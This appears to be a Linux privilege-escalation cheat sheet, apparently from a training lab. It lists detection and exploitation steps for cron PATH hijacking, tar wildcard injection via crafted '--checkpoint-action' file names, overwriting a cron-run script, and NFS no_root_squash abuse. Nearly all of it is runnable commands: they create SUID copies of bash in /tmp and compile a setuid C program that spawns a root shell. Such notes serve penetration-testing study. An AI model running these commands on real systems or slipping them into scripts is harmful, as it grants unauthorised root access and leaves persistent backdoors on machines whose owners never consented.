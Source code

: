 ## Cron 
### path
- *detection*
  - `cat /etc/crontab`
  - notice the value of the “PATH” variable
- *exploitation*
  - `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh` where `overwrite.sh` is file executed by cron
  - `chmod +x /home/user/overwrite.sh`
  - wait until the job runs to give root & then `/tmp/bash -p`

### wildcards
- *detection*
  - `cat /etc/crontab`
  - notice the script “/usr/local/bin/compress.sh”
  - `cat /usr/local/bin/compress.sh`
  - notice the wildcard (*) used by ‘tar’
- *exploitation*
  - `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
  - `touch /home/user/--checkpoint=1`
  - `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
  - wait until the job runs to give root & then `/tmp/bash -p`

### file overwrite
- *detection*
  - `cat /etc/crontab`
  - notice the script “overwrite.sh”
  - `ls -l /usr/local/bin/overwrite.sh`
  - notice the file permissions
- *exploitation*
  - `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`
  - wait until the job runs to give root & then `/tmp/bash -p`


<br>

## NFS root squashing
- *detection*
  - `cat /etc/exports`
  - notice that “no_root_squash” option is defined for the “/tmp” export
- *exploitation*
  - __attacker linux__
    - `showmount -e <taget_linux_ip>`
    - `mkdir /tmp/1`
    - `mount -o rw,vers=2 10.10.249.85:/tmp /tmp/1`
    - `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`
    - `gcc /tmp/1/x.c -o /tmp/1/x`
    - `chmod +s /tmp/1/x`
  - __target linux__
    - `/tmp/x`
